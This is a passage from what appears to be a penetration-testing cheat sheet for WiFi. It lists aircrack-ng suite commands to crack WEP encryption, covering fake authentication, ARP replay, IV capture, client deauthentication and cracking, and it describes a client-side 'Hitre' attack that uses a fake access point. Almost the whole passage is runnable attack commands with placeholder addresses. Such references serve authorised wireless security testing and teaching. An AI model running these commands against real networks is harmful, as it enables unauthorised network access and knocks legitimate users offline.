 ```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid -h FF:FF:FF:FF:FF:FF --fakeauth 0
```

To monitor the number of captured IVs, run `airodump-ng` against a specified WiFi network and watch the `#Data` column (try to capture around 100k IVs):

```fundamental
airodump-ng wlan0mon --channel 8 --bssid FF:FF:FF:FF:FF:FF --essid essid --write airodump_essid_results
```

Start a standard ARP request replaying against a specified WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid -h FF:FF:FF:FF:FF:FF --arpreplay
```

[Optional] Deauthenticate clients from a specified WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid --deauth 10
```

Crack the WEP authentication:

```fundamental
aircrack-ng -b FF:FF:FF:FF:FF:FF -e essid replay_arp*.cap
```

### Hitre Attack

This attack targets clients, not wireless access points. You must know the SSID of your target WiFi.

[Optional] Set up a fake WEP WiFi network if the real one is not present:

```fundamental
airbase-ng wlan0mon -c 8 -a FF:FF:FF:FF:FF:FF --essid essid -W 1 -N
```

If needed, turn up a wireless network interface power to missassociate clients to the fake WiFi network, see how in [section one](#1-configuration).

Monitor the real/fake WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 --bssid FF:FF:FF:FF:FF:FF --essid essid --write airodump_essid_results
```

Start replaying packets to clients within your range:

```fundamental
aireplay-ng wlan1 -h FF:FF:FF:FF:FF:FF -e essid --cfrag -D
```

[Optional] Deauthenticate clients from the real/fake WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid --deauth 10
```
